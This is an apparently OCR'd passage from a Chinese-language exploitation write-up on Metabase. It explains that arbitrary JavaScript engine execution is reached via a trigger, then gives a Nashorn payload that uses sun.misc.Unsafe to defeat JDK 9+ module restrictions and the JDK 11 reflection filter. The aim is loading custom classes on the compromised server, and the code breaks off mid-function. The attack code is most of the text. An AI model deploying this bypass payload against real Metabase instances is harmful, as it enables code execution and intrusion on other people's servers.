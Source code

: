 通过   
TIGGER  
 我们可以进行   
javascript  
 引擎的任意代码执行，所以为了能够更加入的利用非常有必要进行自定义 Class 加载以及执行。由于最新版的 Metabase 对 JDK 运行产生了限制必须要求为 JDK >= 11，所以就必须要解决 JDK9 modules、JDK 11 ReflectionFilter 的问题。  
  
针对类似问题，我们对 javascript 脚本进行了高度的兼容以及高版本 JDK 的 Bypass 操作，核心代码如下：  
```
try {
  load("nashorn:mozilla_compat.js");
} catch (e) {}
function getUnsafe(){
  var theUnsafeMethod = java.lang.Class.forName("sun.misc.Unsafe").getDeclaredField("theUnsafe");
  theUnsafeMethod.setAccessible(true); 
  return theUnsafeMethod.get(null);
}
function removeClassCache(clazz){
  var unsafe = getUnsafe();
  var clazzAnonymousClass = unsafe.defineAnonymousClass(clazz,java.lang.Class.forName("java.lang.Class").getResourceAsStream("Class.class").readAllBytes(),null);
  var reflectionDataField = clazzAnonymousClass.getDeclaredField("reflectionData");
  unsafe.putObject(clazz,unsafe.objectFieldOffset(reflectionDataField),null);
}
function bypassReflectionFilter() {
  var reflectionClass;
  try {
    reflectionClass = java.lang.Class.forName("jdk.internal.reflect.Reflection");
  } catch (error) {
    reflectionClass = java.lang.Class.forName("sun.reflect.Reflection");
  }
  var unsafe = getUnsafe();
  var classBuffer = reflectionClass.getResourceAsStream("Reflection.class").readAllBytes();
  var reflectionAnonymousClass = unsafe.defineAnonymousClass(reflectionClass, classBuffer, null);
  var fieldFilterMapField = reflectionAnonymousClass.getDeclaredField("fieldFilterMap");
  var methodFilterMapField = reflectionAnonymousClass.getDeclaredField("methodFilterMap");
  if (fieldFilterMapField.getType().isAssignableFrom(java.lang.Class.forName("java.util.HashMap"))) {
    unsafe.putObject(reflectionClass, unsafe.staticFieldOffset(fieldFilterMapField), java.lang.Class.forName("java.util.HashMap").getConstructor().newInstance());
  }
  if (methodFilterMapField.getType().isAssignableFrom(java.lang.Class.forName("java.util.HashMap"))) {
    unsafe.putObject(reflectionClass, unsafe.staticFieldOffset(methodFilterMapField), java.lang.Class.forName("java.util.HashMap").getConstructor().newInstance());
  }
  removeClassCache(java.lang.Class.forName("java.lang.Class"));
}
function setAccessible(accessibleObject){
    var unsafe = getUnsafe();
    var overrideField = java.lang.Class.forName("java.lang.reflect.AccessibleObject").getDeclaredField("override");
    var offset = unsafe.objectFieldOffset(overrideField);
    unsafe.putBoolean(accessibleObject, offset, true);
}
function defineClass(){
  var clz = null;
  var version = java.lang.System.getProperty("java.version");
  var unsafe = getUnsafe();
  var classLoader = new java.net.URLClassLoader(java.lang.reflect.Array.newInstance(java.lang.Class.forName("java.net.URL"), 0));
  try{
    if (version.split(".")[0] >= 11) {
      bypassReflectionFilter();
```